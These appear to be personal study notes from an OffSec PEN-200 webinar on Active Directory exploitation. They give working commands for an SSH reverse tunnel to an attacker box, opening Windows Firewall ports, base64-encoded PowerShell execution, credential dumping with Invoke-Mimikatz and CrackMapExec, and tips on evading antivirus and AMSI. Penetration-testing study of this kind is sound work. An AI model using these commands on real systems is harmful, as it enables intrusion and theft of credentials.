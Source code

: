 # OffSec Live: PEN-200

author:: Nathan Acks  
date:: 2022-08-31

## Active Directory Enumeration & Exploitation, Part 3

To use SSH as a generic SOCKS5 proxy, just use remote port forwarding.

```bash
# This command is run from the TARGET and connects back to the ATTACKER
# box. PORT on the ATTACKER box can then be used as a SOCKS5 proxy via
# proxychains, etc.
#
ssh -R $PORT $USER@$ATTACKER
```

To remember the difference between local and remote port forwarding, think of local port forwarding as connecting a port on the local machine to a remote service, while remote port forwarding connects a port on a remote machine to the local service - or SSH instance (if *only* a port is given)! Setting up SSH as a proxy doesn't make sense in the context of the local port forwarding, but can make sense for remote port forwarding.

(SSH port forwards are always read as `$FROM_MACHINE:$FROM_PORT:$TO_MACHINE:$TO_PORT`.)

Check Windows Firewall state:

```powershell
netsh advfirewall show currentprofile
```

See all Windows Firewall rules for inbound connections:

```powershell
netsh advfirewall firewall show rule dir=in name=all
```

Be aware that most built-in rules on Windows are bound to particular applications. But admins are lazy, and seldom bind custom rules to explicit applications. There's no 100% reliable way to identify such rules, but they'll often have obvious naming conventions.

See all Windows Firewall rules for outbound connections:

```powershell
netsh advfirewall firewall show rule dir=out name=all
```

In general you don't want to turn off the Windows Firewall, as doing so will generate a popup for any users currently logged into the machine.

Punch a hole in the Windows Firewall for ports 80, 443, and 4444:

```powershell
netsh advfirewall firewall add action=allow name=tunnel_in `
      dir=in protocol=tcp localport="80,443,4444"
netsh advfirewall firewall add action=allow name=tunnel_out `
      dir=out protocol=tcp localport="80,443,4444"
```

Encode a command to base64 in PowerShell:

```powershell
$Text = "$ONE_LINE_POWERSHELL_COMMAND"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText = [Convert]::ToBase64String($Bytes)
```

Run this using:

```powershell
powershell.exe -enc $EncodedText
```

See logged in users with PowerView.ps1:

```powershell
Get-NetLoggedon | select UserName
```

Mimikatz binaries are generally detected by AV on download these days, but fortunately there's a PowerShell reimplementation that can be run after bypassing AMSI.

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"' > C:\mkat.txt
```

Note, however, that Microsoft Defender will still detect the execution of Invoke-Mimikatz and kill the hosting PowerShell process. This is why we need to redirect the output to a file.

AV can also by bypassed using CrackMapExec:

```bash
crackmapexec smb $TARGET_NETWORK/$TARGET_NETMASK \
	-u $TARGER_USER -p $CRACKED_PASSWORD --lsa 2> /dev/null
```

This only works if `$TARGET_USER` is an admin. If a user's password is currently in memory, CrackMapExec will dump this as well (so then you don't need to crack the hash!).

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [EmpireProject / Empire / data / module_source / credentials / Invoke-Mimikatz.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1)
